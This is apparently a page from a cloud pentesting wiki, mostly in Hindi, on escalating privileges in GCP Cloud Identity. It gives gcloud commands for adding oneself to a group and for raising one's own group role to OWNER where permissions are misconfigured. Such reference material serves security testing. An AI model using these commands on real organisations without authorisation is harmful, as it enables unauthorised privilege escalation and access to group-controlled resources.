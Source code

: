 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

cloudidentity सेवा के बारे में अधिक जानकारी के लिए, इस पृष्ठ की जांच करें:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Add yourself to a group

यदि आपके उपयोगकर्ता के पास पर्याप्त अनुमतियाँ हैं या समूह गलत तरीके से कॉन्फ़िगर किया गया है, तो वह खुद को एक नए समूह का सदस्य बना सकता है:
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### समूह सदस्यता में परिवर्तन करें

यदि आपके उपयोगकर्ता के पास पर्याप्त अनुमतियाँ हैं या समूह गलत तरीके से कॉन्फ़िगर किया गया है, तो वह एक समूह का OWNER बना सकता है, जिसका वह सदस्य है:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
